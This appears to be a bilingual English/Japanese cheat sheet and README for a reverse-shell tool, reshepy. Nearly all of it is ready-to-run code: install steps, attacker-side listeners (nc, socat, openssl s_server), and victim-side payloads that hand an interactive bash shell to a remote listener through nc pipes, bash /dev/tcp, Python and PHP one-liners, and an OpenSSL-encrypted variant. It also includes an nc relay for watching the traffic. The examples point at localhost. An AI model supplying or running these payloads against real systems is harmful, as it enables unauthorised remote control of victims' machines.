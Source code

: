 # reverse shell

* [Reverse Shell \(リバースシェル\) 入門 & 実践 \- 好奇心の足跡]( https://kusuwada.hatenablog.com/entry/2019/10/30/044325 )

## how to install
```
# for avoiding 'pip Installing collected packages: UNKNOWN'
pip3 install setuptools --upgrade
pip3 install https://github.com/umaumax/reshepy/archive/master.tar.gz
```

----

## darwin
* [macos \- Create reverse shell using High Sierra? \- Ask Different]( https://apple.stackexchange.com/questions/324824/create-reverse-shell-using-high-sierra )

### attacker machine
```
nc -nvl 8080
```

### victim machine
```
mkfifo myfifo
nc 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1
rm -f myfifo
```

## ubuntu
### attacker machine
```
nc -nvlp 8080
```

```
socat tcp-listen:8080,reuseaddr,fork stdout
```

### victim machine
```
bash -i >& /dev/tcp/localhost/8080 0>&1
```

## common
### attacker machine
WIP

### victim machine
```
python -c 'import sys,socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' 127.0.0.1 8080
```

```
php -r '$sock=fsockopen($argv[1],intval($argv[2]));exec("/bin/bash -i <&3 >&3 2>&3");' 127.0.0.1 8080
```

## FYI
* [PayloadsAllTheThings/Reverse Shell Cheatsheet\.md at master · swisskyrepo/PayloadsAllTheThings]( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?source=post_page-----c7598145282d---------------------- )
* `source`: [ersh\.py: a pure Python encrypted reverse shell \| Borderline]( https://blog.kwiatkowski.fr/?q=en/ersh )

## secure

[OpenSSLでReverse Shellの通信を暗号化する\(\+"Ctrl\+C"の対応\) \| 俺的備忘録 〜なんかいろいろ〜]( https://orebibou.com/2019/07/openssl%E3%81%A7reverse-shell%E3%81%AE%E9%80%9A%E4%BF%A1%E3%82%92%E6%9A%97%E5%8F%B7%E5%8C%96%E3%81%99%E3%82%8B%E3%82%AD%E3%83%BC%E3%83%90%E3%82%A4%E3%83%B3%E3%83%89%E5%AF%BE%E5%BF%9C/ )

* 通信内容はsecureだが，通信相手が正しいとはわからない

### attacker machine
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes
# Country Name (2 letter code) []: US
# Common Name (eg, fully qualified host name) []:www.localhost.com
openssl s_server -quiet -key key.pem -cert cert.pem -port 8080
```

```
reshepy localhost:8080
```


`socat` version
```
socat $(tty),raw,echo=0 openssl-listen:8080,reuseaddr,cert=cert.pem,key=key.pem,verify=0
```

at darwin
`stty: stdin isn't a terminal`

* [OpenSSL: How to create a certificate with an empty subject? \- Stack Overflow]( https://stackoverflow.com/questions/26058406/openssl-how-to-create-a-certificate-with-an-empty-subject )
* [x509 \- OpenSSL: How to create a certificate with an empty subject DN? \- Super User]( https://superuser.com/questions/512673/openssl-how-to-create-a-certificate-with-an-empty-subject-dn )

### victim machine
```
mkfifo /tmp/p;bash -i < /tmp/p 2>&1 | openssl s_client -quiet -connect 127.0.0.1:8080 > /tmp/p;rm -f /tmp/p
```

----

## port forwarding
下記のコマンドを`attacker`のlocalで動作させれば通信内容を見ることができる
`localhost:8081`->`127.0.0.1:8080`
```
mkfifo fifo
while true ; do nc -l 8081 < fifo | tee /dev/stderr | nc 127.0.0.1 8080 | tee /dev/stderr > fifo; done
rm -f fifo
```

----

## NOTE
* `attacker`と`victim`のコマンドの組み合わせは基本的に自由
* macでは`/dev/tcp/xxx`や`/dev/udp/xxx`などは利用できない
* attackerで`nc`を利用して待ち受けている場合は`ctrl-c`で`nc`が終了してしまう
  * `socat`を利用すればよいが，macには存在しない
* 通常は非暗号化状態で通信
* 接続直後に画面が乱れた場合には`stty sane`
